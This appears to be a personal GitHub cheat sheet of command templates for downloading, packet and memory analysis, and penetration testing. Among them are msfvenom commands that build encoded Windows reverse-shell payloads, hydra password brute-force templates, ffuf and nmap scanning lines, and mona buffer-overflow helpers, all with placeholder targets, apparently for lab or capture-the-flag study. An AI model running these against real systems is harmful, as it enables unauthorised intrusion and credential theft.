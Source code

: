# Command-Templates
## Just a few template commands to copy because I'm forgetful

### wget (Downloading a directory)
```
wget -r -np -nH --cut-dirs=3 -R index.html <DIRECTORY>
```

### yt-dlp (Downloading the best quality from a file)
```
yt-dlp  --merge-output-format mp4 -f "bestvideo+bestaudio[ext=m4a]/best" -a likes.txt
```

### tshark (Extracting dns records)
```
tshark -r <PACKET_FILE> -Tfields -e dns.qry.name -Y "ip.src_host==<IP_ADDRESS>" > <TXT_FILE>
```

### ffuf (Recursive directory scanning)
```
ffuf -w <WORDLIST> -u http://<IP_ADDRESS>/FUZZ -o <OUTPUT_FILE> --recursion -fc 403
```

### nmap (Basic network scanning)

- Runs nmap default scripts
- Scan service versions
- Outputs file in normal format
- Disable host discovery
- Verbose

```
nmap -sC -sV --oN <OUTPUT_FILE> -vv -Pn <IP_ADDRESS>
```

### msfvenom (Simple Windows Payload)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LISTENING_IP_ADDRESS> LPORT=<LISTENING_PORT> -f exe -e x86/shikata_ga_nai -o <OUTPUT_FILE>
```

### msfvenom (Simple Windows Payload Shell)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f py -b [bad characters]
```

### hydra (brute forcing)
```
hydra -t -V -l <USERNAME> -P <PASSWORD_LIST> <SERVICE>://<IP_ADDRESS> 
```

### hydra (http-post-form)
```
hydra -t -V -l <USERNAME> -P <PASSWORD_LIST> http-post-form <IP_ADDRESS> "<DIRECTORY> : <RAW_POST_REQUEST> <ERROR_MESSAGE>"
```

### Immunity Debugger (Finding bad characters)
```
!mona bytearray -b "\x00"
!mona compare -f <binary file> -a <address>
```

### Immunity Debugger (Finding a jump point)
```
!mona jmp -r esp -cpb [bad characters]
```

### Volatility 3 (Dumping Windows Files)
```
./vol.py -f <PATH_TO_MEMDUMP> windows.dumpfiles.DumpFiles --dump --pid <PID> 
```
